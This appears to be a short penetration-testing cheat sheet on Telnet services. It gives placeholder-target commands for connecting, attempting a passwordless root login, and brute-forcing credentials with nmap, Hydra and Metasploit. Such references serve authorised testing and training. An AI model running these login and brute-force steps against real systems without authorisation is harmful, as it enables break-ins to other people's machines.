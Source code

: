 Telnet is an old network protocol that provides insecure access to computers over a network. Due to security vulnerabilities, its usage is not recommended, and more secure alternatives like SSH are preferred.
#### Connect
```bash
telnet <target_ip> <port>

# make note of device and consider searching up device for vulnerabilities
```

#### Passwordless Authentication
Sometimes no password is required and you can login as users without a password
```bash
telnet <target> <port>

login: root
pass: 
```

#### Bruteforcing Creds
```bash
# Nmap
nmap -p 23 --script telnet-brute X.X.X.X

# Hydra
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S port] telnet://X.X.X.X

# Metasploit
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set rhosts X.X.X.X
msf auxiliary(telnet_login) > set user_file /path/to/user.txt
msf auxiliary(telnet_login) > set pass_file /path/to/pass.txt
msf auxiliary(telnet_login) > set stop_on_success true
msf auxiliary(telnet_login) > exploit

```